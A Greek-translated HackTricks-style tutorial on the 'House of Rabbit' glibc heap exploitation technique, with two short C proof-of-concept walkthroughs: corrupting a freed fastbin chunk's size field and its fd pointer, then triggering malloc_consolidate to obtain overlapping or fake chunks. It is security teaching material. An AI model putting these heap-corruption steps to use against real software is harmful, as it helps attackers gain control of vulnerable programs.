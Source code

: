 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Requirements

1. **Δυνατότητα τροποποίησης του δείκτη fd του fast bin ή του μεγέθους**: Αυτό σημαίνει ότι μπορείτε να αλλάξετε τον προ Forward δείκτη ενός chunk στο fastbin ή το μέγεθός του.
2. **Δυνατότητα ενεργοποίησης του `malloc_consolidate`**: Αυτό μπορεί να γίνει είτε με την εκχώρηση ενός μεγάλου chunk είτε με τη συγχώνευση του κορυφαίου chunk, που αναγκάζει τη heap να συγχωνεύσει τα chunks.

### Goals

1. **Δημιουργία επικαλυπτόμενων chunks**: Για να έχει ένα chunk επικαλυπτόμενο με ένα άλλο, επιτρέποντας περαιτέρω χειρισμούς στη heap.
2. **Κατασκευή ψεύτικων chunks**: Για να ξεγελάσετε τον allocator να θεωρεί ένα ψεύτικο chunk ως νόμιμο chunk κατά τη διάρκεια των λειτουργιών της heap.

## Steps of the attack

### POC 1: Τροποποίηση του μεγέθους ενός fast bin chunk

**Objective**: Δημιουργία ενός επικαλυπτόμενου chunk τροποποιώντας το μέγεθος ενός fastbin chunk.

- **Step 1: Εκχώρηση Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Αναθέτουμε δύο κομμάτια των 0x40 byte το καθένα. Αυτά τα κομμάτια θα τοποθετηθούν στη λίστα γρήγορων κομματιών μόλις απελευθερωθούν.

- **Βήμα 2: Απελευθέρωση Κομματιών**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
Απελευθερώνουμε και τα δύο κομμάτια, προσθέτοντάς τα στη λίστα fastbin.

- **Βήμα 3: Τροποποίηση Μεγέθους Κομματιού**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Αλλάζουμε τα μεταδεδομένα μεγέθους του `chunk1` σε 0xa1. Αυτό είναι ένα κρίσιμο βήμα για να ξεγελάσουμε τον αλγόριθμο κατανομής κατά τη διάρκεια της ενοποίησης.

- **Βήμα 4: Ενεργοποιήστε το `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Η εκχώρηση ενός μεγάλου κομματιού ενεργοποιεί τη λειτουργία `malloc_consolidate`, συγχωνεύοντας μικρά κομμάτια στο γρήγορο bin. Το χειρισμένο μέγεθος του `chunk1` προκαλεί να επικαλύπτεται με το `chunk2`.

Μετά τη συγχώνευση, το `chunk1` επικαλύπτεται με το `chunk2`, επιτρέποντας περαιτέρω εκμετάλλευση.

### POC 2: Τροποποίηση του δείκτη `fd`

**Στόχος**: Δημιουργία ενός ψεύτικου κομματιού με την τροποποίηση του δείκτη `fd` του γρήγορου bin.

- **Βήμα 1: Εκχώρηση Κομματιών**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Εξήγηση**: Δεσμεύουμε δύο κομμάτια, ένα μικρότερο και ένα μεγαλύτερο, για να ρυθμίσουμε τη στοίβα για το ψεύτικο κομμάτι.

- **Βήμα 2: Δημιουργία ψεύτικου κομματιού**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Γράφουμε ψευδείς μεταδεδομένες πληροφορίες κομματιού στο `chunk2` για να προσομοιώσουμε μικρότερα κομμάτια.

- **Βήμα 3: Απελευθερώστε το `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Εξήγηση**: Απελευθερώνουμε το `chunk1`, προσθέτοντάς το στη λίστα fastbin.

- **Βήμα 4: Τροποποιήστε το `fd` του `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Εξήγηση**: Αλλάζουμε τον δείκτη προς τα εμπρός (`fd`) του `chunk1` ώστε να δείχνει στο ψεύτικο chunk μας μέσα στο `chunk2`.

- **Βήμα 5: Ενεργοποιήστε το `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Η εκχώρηση ενός μεγάλου κομματιού ξαναενεργοποιεί το `malloc_consolidate`, το οποίο επεξεργάζεται το ψεύτικο κομμάτι.

Το ψεύτικο κομμάτι γίνεται μέρος της λίστας fastbin, καθιστώντας το ένα νόμιμο κομμάτι για περαιτέρω εκμετάλλευση.

### Περίληψη

Η τεχνική **House of Rabbit** περιλαμβάνει είτε την τροποποίηση του μεγέθους ενός κομματιού fast bin για τη δημιουργία επικαλυπτόμενων κομματιών είτε την παραποίηση του δείκτη `fd` για τη δημιουργία ψεύτικων κομματιών. Αυτό επιτρέπει στους επιτιθέμενους να πλαστογραφήσουν νόμιμα κομμάτια στη heap, διευκολύνοντας διάφορες μορφές εκμετάλλευσης. Η κατανόηση και η πρακτική αυτών των βημάτων θα ενισχύσουν τις ικανότητές σας στην εκμετάλλευση της heap.

{{#include ../../banners/hacktricks-training.md}}
